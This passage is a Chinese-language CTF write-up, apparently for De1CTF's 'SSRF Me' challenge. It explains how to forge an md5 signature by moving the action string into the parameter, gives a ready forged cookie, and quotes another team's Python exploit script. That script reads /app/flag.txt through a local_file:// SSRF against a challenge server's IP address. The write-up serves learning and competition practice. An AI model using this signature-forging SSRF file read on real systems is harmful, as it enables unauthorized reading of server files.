     ```
    def getSign(action, param):
        return hashlib.md5(secert_key + param + action).hexdigest()
    ```
* 不妨假设 `secert_key` 是 `xxx` ，那么在开始访问 `/geneSign?param=flag.txt` 的时候，返回的 md5 就是 `md5('xxx' + 'flag.txt' + 'scan')` ，在 python 里面上述表达式就相当于 `md5(xxxflag.txtscan)` ，这就很有意思了。
* 直接构造访问 `/geneSign?param=flag.txtread` ，拿到的 md5 就是 `md5('xxx' + 'flag.txtread' + 'scan')` ，等价于 `md5('xxxflag.txtreadscan')` ，这就达到了目标。

![](https://wcgimages.oss-cn-shenzhen.aliyuncs.com/de1ctf/ssrf\_me\_1.PNG)

*   直接访问 `/De1ta?param=flag.txt` 构造 cookie `action=readscan;sign=7cde191de87fe3ddac26e19acae1525e` 即可

    <img src="https://wcgimages.oss-cn-shenzhen.aliyuncs.com/de1ctf/ssrf_me_2.PNG" alt="" data-size="original">

### local\_file

* 天枢大佬们的做法 : https://xz.aliyun.com/t/5921#toc-16
* 放上他们的 exp

```python
import requests
conn = requests.Session()

url = "http://139.180.128.86"
def geneSign(param):
    data = {
        "param": param
    }
    resp = conn.get(url+"/geneSign",params=data).text
    print resp
    return resp

def challenge(action,param,sign):
    cookie={
        "action":action,
        "sign":sign
    }
    params={
        "param":param
    }
    resp = conn.get(url+"/De1ta",params=params,cookies=cookie)
    return resp.text
filename = "local_file:///app/flag.txt"
a = []
for i in range(1):
    sign = geneSign("{}read".format(filename.format(i)))
    resp = challenge("readscan",filename.format(i),sign)
    if("title" in resp):
        a.append(i)
    print resp,i
print a
```
